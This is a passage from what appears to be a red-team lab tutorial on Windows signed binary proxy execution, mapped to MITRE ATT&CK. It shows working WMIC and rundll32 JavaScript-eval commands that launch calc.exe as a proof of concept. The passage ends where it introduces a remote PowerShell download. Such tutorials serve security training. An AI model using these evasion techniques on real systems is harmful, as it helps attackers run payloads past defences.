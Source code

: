 As a result of the previous command, we popped the calculator on the desktop.

### WMIC

Windows Management Instrumentation (WMIC) is a Windows command-line utility  that manages Windows components. People found that WMIC is also used to  execute binaries for evading defensive measures. The MITRE ATT&CK framework refers to this technique as Signed Binary Proxy Execution ([T1218](https://attack.mitre.org/techniques/T1218/))

- **Command Prompt**

```shell-session
C:\Users\thm>wmic.exe process call create calc
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 1740;
        ReturnValue = 0;
};


C:\Users\thm>
	    
```

The previous WMIC command creates a new process of a binary of our choice, which in this case calc.exe.

### Rundll32

Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts. The MITRE ATT&CK framework identifies this as **Signed Binary Proxy Execution: Rundll32** and refers to it as [T1218](https://attack.mitre.org/techniques/T1218/011/).

The rundll32.exe binary is located at:

- C:\Windows\System32\rundll32.exe for the Windows 32 bits version
- C:\Windows\SysWOW64\rundll32.exe for the Windows 64 bits version

Now let's try to execute a calc.exe binary as proof of concept using the rundll32.exe binary:

- **Command Prompt**

```shell-session
C:\Users\thm> rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
	    
```

In the previous command, we used the rundll32.exe binary that embeds a JavaScript component, eval(), to execute the calc.exe binary, a Microsoft calculator.

As we mentioned previously, we can also execute PowerShell scripts using the rundll32.exe. The following command runs a JavaScript that executes a PowerShell script to download from a remote website using rundll32.exe.
